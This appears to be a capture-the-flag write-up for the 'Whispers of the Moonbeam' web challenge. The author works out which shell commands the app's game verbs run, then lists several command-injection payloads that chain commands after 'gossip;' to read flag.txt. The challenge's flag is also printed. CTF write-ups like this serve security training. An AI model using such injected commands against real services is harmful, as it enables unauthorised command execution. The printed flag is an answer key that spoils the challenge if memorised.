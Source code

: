# Whispers of the Moonbeam (Web)

​![image](assets/image-20250323000822-oq0dvo4.png)​

WTF? lol ok

From this, we can deduce:

* gossip -> `/bin/sh -c 'ls'`​

​![image](assets/image-20250323000944-729cpcr.png)​

Seems like we can deduce:

* help -> builtins

​![image](assets/image-20250323002735-33pn3uc.png)​

​![image](assets/image-20250323001133-2bdjrka.png)​

We can also deduce

* examine -> `whoami`​
* observe -> `ps -aux`​

​![image](assets/image-20250323001311-ehvafwc.png)​

hence, after playing around for quite a bit, these are the different methods I found that allowed me to read the flag via command injection

```
# Replace cat with less/more/tail -n x/head -n x/strings
# just in case /usr/bin/cat has been deleted to make the box harder
# $() can be used instead of `` (backticks) as well

gossip; echo $(strings flag.txt)
gossip; echo `cat flag.txt`
gossip; eval "cat flag.txt"
gossip; exec cat flag.txt
gossip; exec < flag.txt; cat
```

​![image](assets/image-20250323003939-5uhuc4y.png)​

HTB{Sh4d0w_3x3cut10n_1n_Th3_M00nb34m_T4v3rn_6b57066686e9d579b6f0c107178d4595}
